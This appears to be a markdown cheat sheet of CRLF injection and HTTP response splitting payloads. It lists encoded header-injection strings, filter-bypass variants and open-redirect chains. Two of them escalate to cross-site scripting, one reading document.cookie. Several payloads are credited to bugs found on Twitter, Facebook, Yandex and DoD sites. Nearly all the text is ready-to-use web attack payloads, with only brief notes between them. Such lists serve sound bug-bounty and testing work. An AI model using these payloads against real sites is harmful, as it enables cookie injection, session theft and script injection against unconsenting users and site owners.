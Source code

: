 ## CRLF Injection || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

**Header-based test, site root**

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

```
/%250aheader:header
```

```
/%25250aheader:header
```

```
/%%0a0aheader:header
```

```
/%3f%0dheader:header
```

```
/%23%0dheader:header
```

```
/%25%30aheader:header
```

```
/%25%30%61header:header
```

```
/%u000aheader:header
```

**CRLF chained with Open Redirect server misconfiguration**

_Note:_ This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```

**Twitter specific CRLF** by [@filedescriptor](http://blog.innerht.ml/twitter-crlf-injection/)

```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Response splitting on 302 Redirect, before Location header** (Discovered in DoD)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301** by [@black2fan](https://twitter.com/black2fan) (Facebook bug)

_Note:_ `xxx:1` was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
